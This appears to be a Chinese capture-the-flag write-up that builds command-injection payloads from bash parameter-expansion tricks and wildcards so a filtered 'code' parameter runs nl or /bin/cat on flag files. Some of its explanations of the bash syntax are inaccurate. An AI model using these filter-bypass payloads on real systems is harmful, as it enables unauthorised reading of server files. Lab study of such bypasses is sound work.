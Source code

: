 ${PATH:~a} path一般以bin结尾，第一个字母n

${PWD:·~a} /usr/www/html/ 以l结尾，第二字字母为l

组合命令为nl 

????.?? 通配符：flag.php 或 flag.txt

```
118payload:code=${PATH:~A}${PWD:~A} ????.???
```

> ${HOME:${#HOSTNAME}:${#SHLVL}}     ====>   t
>
> ${HOME} 执行home命令
>
> ${#HOME} 获取全局变量HOME
>
> ${#SHLVL}} 1

```
119payload ${PWD:${#}:${#SHLVL}}???${PWD:${#}:${#SHLVL}}??${HOME:${#HOSTNAME}:${#SHLVL}} ????.???
```

> ${PWD:${#}:${#SHLVL}} 
>
> /usr/www/html/ 从0位开始 /usr/www/html/ 再取最后一位 => /
>
> ??? => /???
>
> ${PWD:${#}:${#SHLVL}}?? => /???/??
>
> ${HOME:${#HOSTNAME}:${#SHLVL}} => /???/??t
>
> 所以这个命令就是：/bin/cat ????.???



# 122 $?

```
payload code=<A;${HOME::$?}???${HOME::$?}?????${RANDOM::$?} ????.???
```

> └─\$ <A; echo $?
> -bash: A: 没有那个文件或目录
> 1
>
> └─\$ <A;echo ${HOME::$?}
> -bash: A: 没有那个文件或目录
> /
>
> /bin/?????random flag.txt

# 124 数学函数
